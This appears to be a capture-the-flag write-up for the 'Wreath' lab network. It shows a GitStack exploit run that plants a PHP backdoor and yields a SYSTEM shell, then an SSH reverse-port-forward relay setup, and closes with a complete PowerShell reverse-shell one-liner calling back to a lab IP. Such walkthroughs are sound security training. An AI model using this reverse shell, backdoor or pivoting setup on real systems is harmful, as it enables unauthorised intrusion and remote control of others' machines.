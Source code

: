 ### Exploitation

Running the exploit

```bash
kali㉿kali-[~/thm/wreath]$ ./exploit.py                                                                             1 ⨯
[+] Get user list
[+] Found user twreath
[+] Web repository already enabled
[+] Get repositories list
[+] Found repository Website
[+] Add user to repository
[+] Disable access for anyone
[+] Create backdoor in PHP
Your GitStack credentials were not entered correcly. Please ask your GitStack administrator to give you a username/password and give you access to this repository. <br />Note : You have to enter the credentials of a user which has at least read access to your repository. Your GitStack administration panel username/password will not work.
[+] Pseudoshell
$ whoami
"nt authority\system
"
```

The second maching cannot ping the outside world so we need to setup a relay on the first machine to get a reverseshell

In order to get reverse shell, we need to open port on relay machine and use ssh reverse port forwarding, we should also set GatewayPorts to yes on sshd config.

```bash
[root@prod-serv ~]# firewall-cmd --zone=public --add-port=1337/tcp
success
[root@prod-serv ~]# firewall-cmd --reload
success
```

```bash
[root@prod-serv ~]# vim /etc/ssh/sshd_config
GatewayPorts yes
```
 
```bash
kali㉿kali-[~/thm/wreath]$ ssh -R 1337:localhost:1337 -i id_rsa root@10.200.186.200 -nf
```

then we used the exploit through proxychains to run powershell and setup reverseshell

```batch

powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('10.200.186.200',1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
